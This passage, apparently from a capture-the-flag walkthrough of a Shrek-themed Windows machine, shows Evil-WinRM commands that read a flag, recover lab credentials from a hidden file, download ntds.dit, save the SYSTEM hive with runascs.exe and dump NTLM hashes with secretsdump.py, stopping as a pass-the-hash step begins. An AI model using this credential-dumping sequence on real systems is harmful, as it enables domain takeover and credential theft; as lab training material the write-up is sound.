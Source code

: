 Once connected, we can explore dragon's desktop and find the first flag:
```
*Evil-WinRM* PS C:\Users\dragon\Desktop> type flag1.txt
FLAG{Th1s_1s_My_Sw4mp_N0w!}
```

### Step 6: Finding Hidden Credentials
Looking for hidden files on dragon's desktop:

```
*Evil-WinRM* PS C:\Users\dragon\Desktop> dir -Force
```

This reveals a hidden file named .swamp_secrets.txt. Reading this file:

```
*Evil-WinRM* PS C:\Users\dragon\Desktop> type .swamp_secrets.txt
Found credentials for shrek.shrek: MHX996qm7f8FG92w
```
We find out that shrek has backup operator rights.

### Step 7: Finding NTDS.dit File
Exploring dragon's desktop further, we find an NTDS.dit file:

```
*Evil-WinRM* PS C:\Users\dragon\Desktop> dir
```

We can download this file to our local machine:

```
*Evil-WinRM* PS C:\Users\dragon\Desktop> download ntds.dit
```

### Step 8: Extracting SYSTEM Hive
To extract hashes from the NTDS.dit file, we also need the SYSTEM hive:

```
*Evil-WinRM* PS C:\> .\runascs.exe shrek.shrek MHX996qm7f8FG92w "reg save HKLM\SYSTEM C:\Windows\Temp\system.save"
*Evil-WinRM* PS C:\> .\runascs.exe shrek.shrek MHX996qm7f8FG92w "icacls C:\Windows\Temp\system.save /grant Users:(F)"
*Evil-WinRM* PS C:\> download C:\Windows\Temp\system.save
```

### Step 9: Extracting Hashes from NTDS.dit
On our local machine, we can use secretsdump.py to extract hashes from the NTDS.dit file:

```
$ secretsdump.py -ntds ntds.dit -system system.save LOCAL
```

This reveals the NTLM hash for the Administrator account:


### Step 10: Using the Administrator Hash for Pass-the-Hash
Now we can use the Administrator hash to access the system with a pass-the-hash attack:
